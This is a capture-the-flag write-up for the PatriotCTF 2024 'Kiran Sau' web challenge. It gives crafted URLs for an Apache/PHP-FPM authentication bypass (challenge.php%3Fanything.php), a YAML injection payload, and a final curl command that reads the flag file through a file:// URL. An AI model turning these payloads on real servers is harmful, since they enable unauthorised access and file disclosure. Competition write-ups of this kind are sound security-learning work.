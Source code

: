 ```yaml
---
title: PatriotCTF 2024 Web Kiran Sau Problem

categories: [Apache, Web Pentest, CTF, Misconfig, PHP]

tags: [CURL, PHP, Web, Pentest, APACHE, CTF]

image: /assets/img/uploads/PCTF.png

---
```

# TLDR
ACL Misconfigure -> YAML input issue 

## Part 1
```bash
# create .htpasswd file
RUN htpasswd -bc /etc/apache2/.htpasswd admin TEST_PASSWORD
```
index.php have nothing to show while challenge.php shows basic login form and using given password in the dockerfile works locally but not on the web challenge site.

```php
# Flag location
RUN mkdir /get-here \
    && echo "PCTF{TEST_FLAG}" > /get-here/flag.txt
```
flag is stored inside `/get-here/flag.txt`

000-default.conf
```bash
<Files "challenge.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```
bruteforce password is an option but probably only do when last resort

According to hacktricks : 
#### 
**ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```bash
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache#acl-bypass
(YES I copied everything :D)


### Crafted Payload
```
http://chal.competitivecyber.club:8090/challenge.php%3Fanything.php
```
with this payload we are able to authenticated into challenge page

## Part 2
```php
$input = $_GET['country'];
$url = $_GET['url'];
```
Reading the source code reveals that there is two GET variables we can use.

```yaml
$yaml = <<<EOF
- country: $input
- country_code: $countryList[$input]
EOF;
```
each input was passed into the yaml file and no input validation was done


```php
if (isset($input)) {
    if (array_key_exists($parsed_arr[0]['country'], $countryList)) {
        echo "The country code for ".$parsed_arr[0]['country']." is ". $cc.'<br>';
        run($cc, $url);
```
Therefore we can add more into the yaml entry by abusing space aka %20 by adding in nothing


```php
function run($cc, $url) {

    echo "Country code: ".$cc."<br>";
    if (!$cc) {
        system(escapeshellcmd('curl '.$url));
    } 
    return;
}
```
This will then trigger `!$cc` 

### Crafted payload
```
Afghanistan%20
```

Expected resulted modified yaml entry
```yaml
- country: Afghanistan
- country_code: 
```


### Final payload
```
curl -v "http://chal.competitivecyber.club:8090/challenge.php%3Fooo.php?country=Afghanistan%20&url=file:///get-here/flag.txt"

PCTF{Kiran_SAU_Manifested}
```
Using local file read function of curl `file://` to get the flag
